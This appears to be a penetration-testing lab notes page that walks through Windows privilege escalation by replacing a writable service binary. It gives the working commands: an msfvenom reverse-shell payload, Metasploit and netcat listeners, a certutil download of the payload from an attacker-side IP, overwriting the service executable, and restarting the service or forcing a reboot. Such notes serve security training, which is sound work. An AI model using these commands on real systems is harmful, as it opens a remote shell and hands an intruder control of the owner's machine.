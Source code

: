 ```yaml
---
legal-banner: true
---
```


### **Exploiting a vulnerable service with Metasploit**

1.  Use `msfvenom` to create a reverse shell payload:  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f exe-service -o reverse.exe`  
    
    ![](../../../../img/Windows-Environment/42.png)

    ??? info "Note"

        If the vulnerable service is running from **Program Files (x86)**, create a 32-bit executable.  
        A 64-bit payload may not run properly in that case.
    
2.  Start a listener on the attacking machine:  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`  
    
    ![](../../../../img/Windows-Environment/43.png)

    ??? info "Note"

        Alternatively, start a simple netcat listener:  
        `sudo rlwrap -cAr nc -lvnp 1338`
    
3.  Transfer `reverse.exe` to the target machine:  
    `certutil -urlcache -f http://10.11.92.52:8000/reverse.exe reverse.exe`  
    
    ![](../../../../img/Windows-Environment/44.png)
    
4.  Replace the vulnerable service binary (`filepermservice.exe`) with your payload, keeping the original binary name:  

    ```powershell
    Copy-Item -Path "C:\Temp\reverse.exe" -Destination "C:\Program Files\File Permissions Service\filepermservice.exe" -Force
    ```

    ![](../../../../img/Windows-Environment/45.png)

    ??? info "Note"

        In `cmd`, you can use:  
        `copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"`

5.  Restart the service to trigger execution:  
    ```
    sc stop filepermsvc
    sc start filepermsvc
    ```
    or  
    `net start filepermsvc`
    
    ![](../../../../img/Windows-Environment/46.png)
    
    ??? info "Important"

        If `SeShutdownPrivilege` is enabled, you can also reboot the machine to restart the service automatically:  
        `shutdown /r /t 0 /f`